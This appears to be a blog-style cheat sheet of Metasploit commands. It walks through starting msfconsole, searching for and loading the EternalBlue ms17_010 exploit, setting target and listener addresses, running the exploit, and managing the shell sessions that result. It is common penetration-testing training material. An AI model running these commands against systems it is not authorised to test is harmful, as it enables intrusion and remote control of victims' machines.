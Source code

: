 ```yaml
---
layout: post
title: Metasploit Framework and Meterpreter
date: 2025-04-10 17:38 +0300
categories: [Exploitation, Metasploit Framework]
---
```


## Metasploit Framework Basics

### Starting and Updating Metasploit

```bash
# Start Metasploit console
msfconsole

# Update Metasploit
apt update && apt upgrade metasploit-framework
# Or
msfupdate
```

### Core MSF Commands

```bash
# Search for modules
search type:exploit platform:windows ms17-010

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# Show required options
show options

# Show available payloads
show payloads

# Set required options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set LPORT 4444

# Execute the exploit
exploit
# Or
run
```

### Managing Sessions

```bash
# List active sessions
sessions -l

# Interact with a session
sessions -i 1

# Background current session
background
# Or Ctrl+Z

# Upgrade a shell to meterpreter
sessions -u 1
```